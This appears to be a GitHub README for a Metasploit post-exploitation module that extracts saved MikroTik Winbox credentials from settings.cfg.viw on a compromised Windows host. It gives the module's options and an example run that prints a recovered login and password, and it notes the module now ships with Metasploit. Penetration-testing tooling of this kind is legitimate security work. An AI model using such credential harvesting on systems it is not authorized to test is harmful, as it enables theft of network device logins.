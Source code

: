 # Metasploit - winbox_settings

Post module for Metasploit to extracts Mikrotik Winbox credentials saved in the "settings.cfg.viw" file when the "Keep Password" option is selected in Winbox.

This repository is obsolete. The module is now part of [metasploit](https://github.com/rapid7/metasploit-framework)!

## Module options

```
Module options (post/windows/gather/credentials/winbox_settings):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  5                yes       The session to run this module on
   VERBOSE  false            no        HexDump settings.cfg.viw files
```

## Example

```
msf6 post(windows/gather/credentials/winbox_settings) > run

[*] VERBOSE: false
[*] Checking Default Locations...
[*] C:\Users\Administrator\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw not found ....
[*] Found File at C:\Users\FooBar\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw
[+] Login: ThisIsUsername
[+] Password: ThisIsPassword
[*] Post module execution completed
```

## Author

[Pasquale 'sid' Fiorillo](https://www.pasqualefiorillo.it/)

Thanks to [ISGroup](https://www.isgroup.biz/) :heart:

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/F1F3SGS48)
